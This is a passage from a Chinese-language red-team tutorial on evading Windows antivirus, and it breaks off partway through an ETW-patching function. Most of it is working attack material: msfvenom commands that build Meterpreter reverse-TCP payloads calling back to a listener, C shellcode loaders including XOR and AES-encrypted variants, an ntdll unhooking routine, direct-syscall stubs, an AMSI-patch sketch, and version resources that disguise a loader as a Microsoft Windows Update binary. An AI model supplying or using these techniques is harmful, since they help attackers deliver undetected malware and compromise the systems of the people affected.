






## 三、Windows免杀与对抗实战

Windows 免杀（Evasion）是渗透测试和红队操作中的核心技能。它不是简单地"改个马"绕过杀毒软件，而是一门涉及编译原理、操作系统内核、反逆向工程、密码学的综合性技术。本章从 AV 检测原理讲起，逐步覆盖静态免杀、动态免杀、进程注入、持久化四大领域，每个技术点都解释"为什么能绕过"而非仅仅"怎么用"。

### 3.1 免杀技术全景与检测原理

在动手做免杀之前，必须先理解对手——安全软件——是怎么工作的。不了解检测机制的免杀是盲目的，就像不了解免疫系统的人试图研究病毒一样。

#### 3.1.1 现代 AV 检测的四层防线

现代杀毒软件（Windows Defender、卡巴斯基、火绒等）采用多层检测机制，任何一层触发都会导致 payload 被拦截：

| 检测层 | 工作原理 | 典型技术 | 绕过难度 |
|--------|----------|----------|----------|
| **静态特征码** | 对文件字节进行模式匹配，查找已知恶意代码片段 | YARA 规则、哈希匹配、字符串检测 | ★★☆☆☆ |
| **静态启发式** | 分析 PE 结构、导入表、节属性等元数据特征 | PE 头异常检测、熵值分析、节名异常 | ★★★☆☆ |
| **动态行为监控** | 在沙箱或真实环境中运行样本，监控行为特征 | API 调用序列分析、网络行为监控、文件操作监控 | ★★★★☆ |
| **云端 AI 检测** | 将样本特征上传云端，用机器学习模型进行分类 | 特征向量化 + 神经网络分类、大规模样本关联 | ★★★★★ |



**关键认知**：免杀不是一次性的。同一个 payload 在不同 Windows 版本、不同 Defender 签名版本下的表现可能完全不同。今天的免杀明天可能失效，这要求我们掌握原理而非仅仅记住步骤。

#### 3.1.2 Windows Defender 检测引擎解析

Windows Defender 是当前最常见的对手，理解其内部机制至关重要：

- **MpEngine.dll**：核心扫描引擎，负责特征匹配和启发式分析
- **AMS（Antimalware Scan Interface）**：进程级别的脚本扫描接口，PowerShell、VBScript、.NET 的脚本执行前必须经过 AMSI 扫描
- **ETW（Event Tracing for Windows）**：内核级别的事件追踪，Defender 通过 `Microsoft-Windows-Threat-Intelligence` provider 监控进程创建、内存分配等关键操作
- **CLAM（Cloud-based Machine Learning）**：将可疑样本特征上传到微软云端进行 AI 分类



#### 3.1.3 免杀技术分类体系

从技术手段角度，免杀可分为四大类，每类解决不同层面的问题：

| 类别 | 核心思路 | 代表技术 | 效果 |
|------|----------|----------|------|
| **静态免杀** | 让文件的字节特征不匹配已知签名 | 加壳、加密、代码混淆、自定义编译 | 绕过特征码和静态启发式 |
| **动态免杀** | 在运行时规避行为检测 | API 未挂钩、直接系统调用、ETW 补丁 | 绕过动态行为监控 |
| **内存免杀** | Payload 不以文件形式存在 | 反射加载、进程注入、内存加密 | 绕过文件扫描 |
| **基础设施免杀** | 控制 C2 通信特征 | 域前置、合法证书、流量伪装 | 绕过网络层检测 |

### 3.2 Payload 生成与定制

生成 payload 是免杀的第一步。默认生成的 payload 几乎 100% 会被检测，因此理解生成过程中的每个参数都有助于后续的免杀工作。

#### 3.2.1 Metasploit msfvenom 基础

msfvenom 是最常用的 payload 生成工具，但它默认生成的 payload 特征非常明显——每一个 shellcode 都有固定的编码模式，Defender 的签名库里有大量已知的 msfvenom 生成特征。

**基础 payload 生成**：

```bash
# 生成 reverse_tcp EXE payload（32位）
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f exe -o payload.exe

# 生成 reverse_tcp DLL payload
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f dll -o payload.dll

# 生成 64 位 PowerShell payload
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f psh -o payload.ps1

# 生成 raw shellcode（用于自定义 loader）
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f raw -o shellcode.bin

# 生成 C 格式 shellcode（嵌入自定义程序）
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f c -o shellcode.h
```

**重要参数说明**：

| 参数 | 作用 | 免杀意义 |
|------|------|----------|
| `-p` | 选择 payload 类型 | 不同 payload 的检测率差异巨大 |
| `-f` | 输出格式 | exe、dll、ps1、raw、c 等，影响后续处理方式 |
| `-e` | 编码器 | 对 shellcode 进行编码变换 |
| `-i` | 编码迭代次数 | 增加迭代可略微增加混淆度 |
| `-b` | 坏字符排除 | 去除特定字节，同时改变特征码 |
| `--platform` | 目标平台 | Windows/Linux/Android |
| `-a` | 架构 | x86/x64 |

#### 3.2.2 编码与混淆

**shikata_ga_nai 编码器**：

`shikata_ga_nai`（日语意为"没办法"）是 msfvenom 中最知名的编码器，它使用多态 XOR 编码加上随机的 FPU 指令作为解码器头部。但 Defender 早已将其签名入库，单独使用基本无法绕过检测。

```bash
# 单次编码（几乎无效）
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -e x86/shikata_ga_nai -i 1 \
    -f exe -o encoded_1x.exe

# 多次编码（效果有限）
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -e x86/shikata_ga_nai -i 5 \
    -f exe -o encoded_5x.exe

# 管道串联多种编码器（稍有改善）
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -e x86/shikata_ga_nai -i 3 -f raw | \
msfvenom -e x86/alpha_upper -i 2 -f raw | \
msfvenom -e x86/countdown -i 1 -f exe -o multi_encoded.exe
```

> **误区警示**：多次编码不等于更强的免杀。msfvenom 的编码器只是对 payload 做字节变换，解码 stub 本身也有固定特征。当迭代次数增加到一定数量后，边际收益趋近于零，甚至可能因为 payload 体积膨胀而触发启发式检测。真正有效的免杀需要从 loader 层面重新设计。

#### 3.2.3 Cobalt Strike Beacon 定制

Cobalt Strike（CS）是红队的标配工具，其 Beacon payload 比 msfvenom 灵活得多，但默认配置同样有明显的特征。

**生成 Beacon**：

```text
Cobalt Strike 操作流程：
1. Attacks -> Packages -> Windows Executable (S)
2. Payload 选择：Beacon HTTP / Beacon HTTPS / Beacon DNS
3. Listener：选择对应的监听器
4. Output：Windows EXE / Windows Service EXE / DLL
5. 勾选 "Use x64 payload"（根据目标架构选择）
```

**Artifact Kit 自定义编译**：

Artifact Kit 是 CS 内置的 payload 模板编译工具，它允许你自定义 shellcode 的加载方式，从而改变 payload 的编译特征：

```bash
# Artifact Kit 默认路径
cd /opt/cobaltstrike/artifact-kit

# 查看可用模板
ls src-main/
# 常见模板：
#   dll.c        - DLL 注入模板
#   svchost.c    - 伪装 svchost 模板
#   peek.c       - 异步执行模板
#   pipe.c       - 命名管道模板

# 修改 src-main/config.dist 选择模板
# 编译
./build.sh

# 将编译好的 artifact 复制到 CS 目录
cp dist/artifact.cna /opt/cobaltstrike/
```

**Malleable C2 Profile**：

Malleable C2 Profile 是 CS 最强大的定制能力之一，它允许你完全控制 Beacon 的网络通信特征，使其看起来像正常的 HTTP/HTTPS 流量：

```text
# 示例 profile 片段（模拟 Google 搜索流量）
http-get {
    set uri "/search?q=";
    client {
        header "Host" "www.google.com";
        header "Accept" "text/html,application/xhtml+xml";
        metadata {
            base64url;
            parameter "q";
        }
    }
    server {
        header "Content-Type" "text/html";
        output {
            netbios;
            prepend "<html><body>";
            append "</body></html>";
        }
    }
}

http-post {
    set uri "/search";
    client {
        id {
            base64url;
            parameter "q";
        }
        output {
            print;
        }
    }
}
```

### 3.3 静态免杀技术

静态免杀的目标是让 payload 的文件特征不被 AV 引擎匹配到。这是最基础也是最重要的免杀阶段。

#### 3.3.1 自定义 Shellcode Loader

使用 msfvenom 或 CS 默认生成的 EXE 有大量固定特征。最有效的静态免杀方式是用自定义代码加载 shellcode，完全绕过已知模板的签名。

**基础 C 语言 Loader**：

```c
// shellcode_loader.c
// 原理：分配可执行内存 -> 复制 shellcode -> 创建线程执行
#include <windows.h>
#include <stdio.h>

// shellcode 由 msfvenom -f c 生成
unsigned char shellcode[] = {
    0xfc, 0x48, 0x83, 0xe4, 0xf0, /* ... 实际 shellcode ... */
};

int main() {
    // 1. 分配 RWX（读写执行）内存
    // VirtualAlloc 在当前进程的虚拟地址空间中分配内存
    // MEM_COMMIT | MEM_RESERVE：立即物理分配
    // PAGE_EXECUTE_READWRITE：可读可写可执行（高风险标志，见后文）
    void *exec_mem = VirtualAlloc(
        0,
        sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
    
    if (exec_mem == NULL) {
        printf("VirtualAlloc failed: %d\n", GetLastError());
        return 1;
    }
    
    // 2. 将 shellcode 复制到分配的内存
    memcpy(exec_mem, shellcode, sizeof(shellcode));
    
    // 3. 创建线程执行 shellcode
    HANDLE hThread = CreateThread(
        0,                  // 默认安全属性
        0,                  // 默认栈大小
        (LPTHREAD_START_ROUTINE)exec_mem,
        0,                  // 无参数
        0,                  // 立即运行
        0                   // 不需要线程 ID
    );
    
    if (hThread != NULL) {
        WaitForSingleObject(hThread, INFINITE);
        CloseHandle(hThread);
    }
    
    return 0;
}
```

**进阶：分阶段内存保护**：

直接使用 `PAGE_EXECUTE_READWRITE` 会触发启发式检测（同时可写可执行的内存页是高风险标志）。更隐蔽的做法是分阶段设置内存保护：

```c
// stage1: 先分配 RW 内存（不可执行）
void *exec_mem = VirtualAlloc(0, sizeof(shellcode), 
    MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

// stage2: 写入 shellcode
memcpy(exec_mem, shellcode, sizeof(shellcode);

// stage3: 修改为 RX（可执行但不可写）
DWORD old_protect;
VirtualProtect(exec_mem, sizeof(shellcode), 
    PAGE_EXECUTE_READ, &old_protect);

// stage4: 执行
HANDLE hThread = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
```

这个技巧利用了 Windows 的内存保护机制：VirtualProtect 可以在运行时修改内存页的保护属性。分阶段操作模拟了正常的程序行为（先写入数据再执行），比一步到位的 RWX 更难被行为检测识别。

#### 3.3.2 Shellcode 加密

加密是静态免杀的基石——加密后的 shellcode 没有任何可识别的固定字节模式。

**XOR 加密 Loader**：

```c
// xor_encrypt.c - 加密工具（在攻击机上运行）
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
    unsigned char shellcode[] = { /* msfvenom 生成的原始 shellcode */ };
    unsigned char key = 0xAA; // 单字节 XOR 密钥
    
    for (int i = 0; i < sizeof(shellcode); i++) {
        shellcode[i] ^= key;
    }
    
    // 输出加密后的 shellcode
    printf("unsigned char encrypted[] = {");
    for (int i = 0; i < sizeof(shellcode); i++) {
        printf("0x%02x,", shellcode[i]);
    }
    printf("};\n");
    
    return 0;
}
```

```c
// xor_decrypt_loader.c - 解密执行器（在目标机器上运行）
#include <windows.h>

unsigned char encrypted[] = { /* 加密后的 shellcode */ };
unsigned char key = 0xAA;

int main() {
    // 分配内存
    void *mem = VirtualAlloc(0, sizeof(encrypted),
        MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    
    // 解密：逐字节 XOR 还原
    for (int i = 0; i < sizeof(encrypted); i++) {
        ((unsigned char*)mem)[i] = encrypted[i] ^ key;
    }
    
    // 修改内存保护为可执行
    DWORD old;
    VirtualProtect(mem, sizeof(encrypted), PAGE_EXECUTE_READ, &old);
    
    // 执行
    HANDLE h = CreateThread(0, 0, 
        (LPTHREAD_START_ROUTINE)mem, 0, 0, 0);
    WaitForSingleObject(h, INFINITE);
    
    return 0;
}
```

**AES-256 加密方案**：

单字节 XOR 的密钥空间太小（仅 256 种可能），AV 引擎可以通过暴力枚举解密并匹配签名。使用 AES-256 可以彻底解决这个问题：

```python
# encrypt_aes.py
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import os

def encrypt_shellcode(shellcode_bytes, key=None):
    if key is None:
        key = os.urandom(32)  # 随机 256 位密钥
    
    iv = os.urandom(16)  # 随机初始化向量
    cipher = AES.new(key, AES.MODE_CBC, iv)
    encrypted = cipher.encrypt(pad(shellcode_bytes, AES.block_size))
    
    return encrypted, key, iv

# 用法示例
shellcode = b"\xfc\x48\x83\xe4\xf0..."  # msfvenom -f raw 输出
enc, key, iv = encrypt_shellcode(shellcode)

# 输出为 C 数组格式，嵌入到 loader 中
print(f"unsigned char key[] = {list(key)};")
print(f"unsigned char iv[] = {list(iv)};")
print(f"unsigned char enc[] = {list(enc)};")
```

#### 3.3.3 编译器层面的规避

**使用 MinGW 交叉编译**：

使用 MSVC（Visual Studio）编译的 PE 文件有明显的编译器特征。切换到 MinGW 或自定义编译选项可以改变这些特征：

```bash
# MinGW 编译（改变 PE 头部特征）
x86_64-w64-mingw32-gcc loader.c -o loader.exe \
    -mwindows \
    -Wl,--dynamicbase \
    -Wl,--nxcompat \
    -Wl,--high-entropy-va \
    -Os \
    -s

# 参数说明：
# -mwindows       : GUI 程序（隐藏控制台窗口）
# --dynamicbase   : 启用 ASLR（正常的程序行为）
# --nxcompat      : 启用 DEP（正常的程序行为）
# --high-entropy-va : 64 位高熵地址空间
# -Os              : 优化体积
# -s               : 去除符号表
```

**资源伪装**：

为 PE 文件添加正常的图标、版本信息和数字签名，可以降低启发式检测的信任分：

```c
// version_info.rc - 添加版本信息资源
#include <winver.h>

VS_VERSION_INFO VERSIONINFO
FILEVERSION 6,1,7601,0
PRODUCTVERSION 6,1,7601,0
FILEFLAGSMASK 0x3fL
FILEFLAGS 0x0L
FILEOS VOS_NT_WINDOWS32
FILETYPE VFT_APP
FILESUBTYPE VFT2_UNKNOWN
{
    BLOCK "StringFileInfo"
    {
        BLOCK "040904b0"
        {
            VALUE "CompanyName", "Microsoft Corporation"
            VALUE "FileDescription", "Windows Update Agent"
            VALUE "FileVersion", "6.1.7601.17514"
            VALUE "InternalName", "wuauclt"
            VALUE "OriginalFilename", "wuauclt.exe"
            VALUE "ProductName", "Microsoft Windows Operating System"
            VALUE "ProductVersion", "6.1.7601.17514"
        }
    }
    BLOCK "VarFileInfo"
    {
        VALUE "Translation", 0x0409, 1200
    }
}

// 编译时嵌入
// x86_64-w64-mingw32-windres version_info.rc -o version_info.o
// x86_64-w64-mingw32-gcc loader.c version_info.o -o loader.exe
```

#### 3.3.4 加壳与保护

加壳（Packing）是对可执行文件进行压缩或加密处理，运行时在内存中解压还原。这是最古老的免杀技术之一，至今仍然有效，因为它从根本上改变了文件的字节内容。

| 壳类型 | 原理 | 代表工具 | 免杀效果 |
|--------|------|----------|----------|
| **压缩壳** | 压缩代码段，运行时解压 | UPX, ASPack | ★★☆☆☆（UPX 特征已被广泛检测） |
| **加密壳** | 加密代码段，运行时解密 | VMProtect, Themida | ★★★★☆（虚拟化保护极难逆向） |
| **虚拟化壳** | 将代码转为自定义字节码，运行时用虚拟机执行 | VMProtect, Code Virtualizer | ★★★★★（改变 CPU 指令集） |
| **自定义壳** | 自己编写加壳逻辑 | 手工实现 | ★★★☆☆（取决于实现质量） |

```bash
# UPX 加壳（仅作演示，UPX 特征已被 AV 识别）
upx --best loader.exe -o loader_packed.exe

# 自定义加壳思路（简化版）：
# 1. 读取目标 PE 文件
# 2. 加密 .text 代码段
# 3. 在 PE 头部添加一个小型解密 stub
# 4. 运行时：解密 stub 先执行 -> 解密 .text -> 跳转到原始入口点
```

### 3.4 动态免杀技术

静态免杀只解决了"文件不被识别"的问题。当 payload 开始运行，AV 引擎会通过 API 监控、内存扫描等手段进行动态检测。动态免杀的目标是在运行时规避这些检测。

#### 3.4.1 API Hooking 与 Unhooking

**Hooking 原理**：

安全软件通过在 Windows API 函数的开头插入跳转指令（Inline Hook），将 API 调用重定向到自己的检测代码。当程序调用 `VirtualAlloc` 时，实际执行的是：



Hook 的本质是在 API 函数的前几个字节写入 `JMP` 指令：

```text
原始 ntdll.dll 中的 NtAllocateVirtualMemory:
    mov r10, rcx          ; 正常的函数开头
    mov eax, 18h          ; 系统调用号
    syscall
    ret

被 Hook 后：
    jmp AV_Check_Function ; 被替换为跳转
    nop                   ; 原始指令被覆盖
    syscall
    ret
```

**Unhooking 技术**：

Unhooking 的核心思路是从干净的 ntdll.dll 副本中读取原始字节，覆盖被 Hook 的函数开头：

```c
// unhook.c - 从磁盘读取原始 ntdll.dll 覆盖被 Hook 的版本
#include <windows.h>
#include <stdio.h>

BOOL UnhookNtdll() {
    // 1. 打开磁盘上的原始 ntdll.dll
    HANDLE hFile = CreateFileA(
        "C:\\Windows\\System32\\ntdll.dll",
        GENERIC_READ, FILE_SHARE_READ, NULL,
        OPEN_EXISTING, 0, NULL
    );
    if (hFile == INVALID_HANDLE_VALUE) return FALSE;
    
    // 2. 读取到内存
    DWORD fileSize = GetFileSize(hFile, NULL);
    LPVOID dllBuffer = HeapAlloc(GetProcessHeap(), 0, fileSize);
    ReadFile(hFile, dllBuffer, fileSize, NULL, NULL);
    CloseHandle(hFile);
    
    // 3. 解析 PE 头，找到 .text 段
    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)dllBuffer;
    PIMAGE_NT_HEADERS ntHeaders = (PIMAGE_NT_HEADERS)(
        (BYTE*)dllBuffer + dosHeader->e_lfanew);
    PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(ntHeaders);
    
    for (WORD i = 0; i < ntHeaders->FileHeader.NumberOfSections; i++) {
        if (strcmp((char*)section[i].Name, ".text") == 0) {
            // 4. 获取内存中 ntdll.dll 的基地址
            HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
            LPVOID textAddr = (BYTE*)hNtdll + section[i].VirtualAddress;
            
            // 5. 修改内存保护并覆盖
            DWORD oldProtect;
            VirtualProtect(textAddr, section[i].Misc.VirtualSize,
                PAGE_EXECUTE_READWRITE, &oldProtect);
            
            memcpy(textAddr,
                (BYTE*)dllBuffer + section[i].PointerToRawData,
                section[i].Misc.VirtualSize);
            
            VirtualProtect(textAddr, section[i].Misc.VirtualSize,
                oldProtect, &oldProtect);
            
            break;
        }
    }
    
    HeapFree(GetProcessHeap(), 0, dllBuffer);
    return TRUE;
}
```

#### 3.4.2 直接系统调用（Direct Syscall）

Windows 用户态 API 的调用链是：`程序 -> kernel32.dll -> ntdll.dll -> 内核`。安全软件在 `ntdll.dll` 层面进行 Hook。直接系统调用跳过整个 DLL 调用链，直接触发 CPU 的系统调用指令。

```nasm
; x64 直接系统调用（NASM 语法）
; 绕过 ntdll.dll 中的所有 Hook
; 直接使用 syscall 指令进入内核

section .text
global NtAllocateVirtualMemory

NtAllocateVirtualMemory:
    ; Windows x64 系统调用约定：
    ; rax = 系统调用号（SSN, System Service Number）
    ; rcx = 第一个参数
    ; r10 = 第二个参数（注意不是 rdx）
    ; rdx = 第三个参数
    ; r8  = 第四个参数
    ; r9  = 第五个参数
    
    mov r10, rcx              ; 保存第一个参数
    mov eax, 0x18             ; NtAllocateVirtualMemory 的 SSN（需根据 Windows 版本调整）
    syscall                   ; 直接进入内核
    ret
```

**使用 SysWhispers 生成直接系统调用**：

SysWhispers 是一个自动生成直接系统调用桩代码的工具，它能自动从 ntdll.dll 中提取 SSN：

```bash
# SysWhispers2 用法
cd /opt/tools/SysWhispers2

# 生成常用 API 的 syscall 桩
python3 syswhispers.py -p NtAllocateVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx,NtProtectVirtualMemory -o syscalls

# 输出文件：
# syscalls.h   - C 头文件
# syscalls.c   - 实现代码
# syscalls.asm - 汇编代码（需用 MASM 或 NASM 编译）
```

在 C 代码中使用：

```c
#include "syscalls.h"

// 使用直接系统调用替代标准 API
void* AllocateMemory(HANDLE process, SIZE_T size) {
    PVOID baseAddress = NULL;
    SIZE_T regionSize = size;
    
    // 直接调用内核，绕过 ntdll.dll 中的 Hook
    NtAllocateVirtualMemory(
        process,
        &baseAddress,
        0,
        &regionSize,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE
    );
    
    return baseAddress;
}
```

#### 3.4.3 AMSI 绕过

AMSI（Antimalware Scan Interface）是 Windows 10 引入的安全机制，它在 PowerShell、VBScript、JScript、.NET 等脚本引擎和 AV 之间建立了一个扫描接口。任何脚本在执行前都必须通过 AMSI 扫描。



**AMSI 内存补丁原理**：

AMSI 的核心函数是 `amsi.dll` 中的 `AmsiScanBuffer()`。通过修改该函数的内存，让它直接返回"通过"（`AMSI_RESULT_CLEAN`），可以禁用整个 AMSI 机制。

```powershell
# AMSI 补丁 - 原理详解版
# 目标：让 AmsiScanBuffer() 直接返回 S_OK (0)，不再扫描内容

# 1. 获取当前进程的 amsi.dll 加载地址
$assembly = [System.Reflection.Assembly]::Load('System.Management.Automation')
$type = $assembly.GetType('System.Management.Automation.AmsiUtils')
$field = $type.GetField('amsiContext', 
    [System.Reflection.BindingFlags]::NonPublic -bor 
    [System.Reflection.BindingFlags]::Static)

# 2. 获取 AmsiOpenSession 函数地址
$openSession = $type.GetMethod('AmsiOpenSession',
    [System.Reflection.BindingFlags]::NonPublic -bor 
    [System.Reflection.BindingFlags]::Static)

# 3. 修改 AmsiScanBuffer 的内存
# 方法：将函数开头替换为：
#   mov eax, 0x80070057  (E_INVALIDARG)
#   ret
# 这样函数会立即返回错误码，跳过扫描
$patch = [byte[]]@(0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)

# 4. 获取函数地址并修改保护
$amsi = [System.Reflection.Assembly]::LoadFile('C:\Windows\System32\amsi.dll')
$scanBuffer = $amsi.GetType('AmsiUtils').GetMethod('AmsiScanBuffer')

# 5. 通过 VirtualProtect 修改内存保护并写入补丁
$kernel32 = Add-Type -MemberDefinition '
    [DllImport("kernel32.dll")] 
    public static extern bool VirtualProtect(
        IntPtr lpAddress, uint dwSize, 
        uint flNewProtect, out uint lpflOldProtect);
' -Name 'Kernel32' -Namespace 'Win32' -PassThru

# 注意：以上是原理说明。实际的 AMSI 补丁需要更精确的地址计算
# 推荐使用经过验证的开源实现
```

**绕过 AMSI 的常用方法对比**：

| 方法 | 原理 | 可靠性 | 持久性 |
|------|------|--------|--------|
| 内存补丁 AmsiScanBuffer | 修改函数入口直接返回 | ★★★★☆ | 进程级（重启 PowerShell 后失效） |
| Reflection + 异常 | 利用 .NET 反射触发异常中断扫描 | ★★★☆☆ | 进程级 |
| 内核驱动拦截 | 通过驱动阻止 amsi.dll 加载 | ★★★★★ | 系统级 |
| AMSI Provider 劫持 | 替换注册的 AMSI provider DLL | ★★★★☆ | 系统级 |
| PowerShell v2 | 降级到不支持 AMSI 的版本 | ★★★☆☆ | 系统级（需 .NET 3.5） |

> **注意**：Windows 11 和最新版 Defender 已经对多种已知的 AMSI 补丁进行了检测。在实际操作中需要自行开发或修改补丁的字节模式，避免被签名匹配。

#### 3.4.4 ETW 补丁

ETW（Event Tracing for Windows）是 Windows 内置的事件追踪框架。Defender 的 `Microsoft-Windows-Threat-Intelligence` provider 可以监控进程创建、内存分配、模块加载等关键事件。通过 patch ETW provider 的写入函数，可以阻止事件上报。

```c
// etw_patch.c - 禁用 ETW 事件上报
#include <windows.h>
#include <stdio.h>

BOOL DisableETW() {
    // 获取 ntdll.dll 中 EtwEventWrite 的地址
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    if (hNtdll == NULL) return FALSE;
    
    FARPROC etwFunc = GetProcAddress(hNtdll, "EtwEventWrite");
